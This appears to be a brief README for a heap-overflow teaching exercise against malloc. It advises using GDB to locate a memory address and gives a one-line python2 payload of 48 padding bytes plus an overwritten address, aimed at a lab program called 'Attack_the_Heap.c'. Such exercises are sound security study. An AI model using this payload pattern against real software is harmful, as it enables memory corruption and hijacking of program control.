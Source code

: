 Example of heap exploitation and buffer overflow against memory allocation (malloc)

Use GDB to find memory location of malloc

Example:

Use compiled attack file on "Attack_the_Heap.c"

./Attack `python2 -c "print 'A'*48 + '\xA6\x91\x04\x08'"`

